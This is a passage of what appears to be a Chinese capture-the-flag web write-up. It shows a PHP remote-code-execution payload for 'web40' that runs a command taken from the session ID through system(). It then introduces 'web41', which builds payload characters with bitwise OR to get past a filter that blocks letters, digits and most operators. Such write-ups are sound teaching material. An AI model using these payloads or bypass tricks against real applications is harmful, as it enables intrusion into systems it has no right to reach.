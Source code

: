 ```GET /?c=session_start();system(session_id()); HTTP/1.1

```

![web40_sessionid](./image/web40_sessionid.png)

## Web41：或运算构造payload

题目：这个题过滤了$、+、-、^、~使得异或自增和取反构造字符都无法使用，同时过滤了字母和数字。但是特意留了个或运算符|。
我们可以尝试从ascii为0-255的字符中，找到或运算能得到我们可用的字符的字符。

![web41_timu](./image/web41_timu.png)
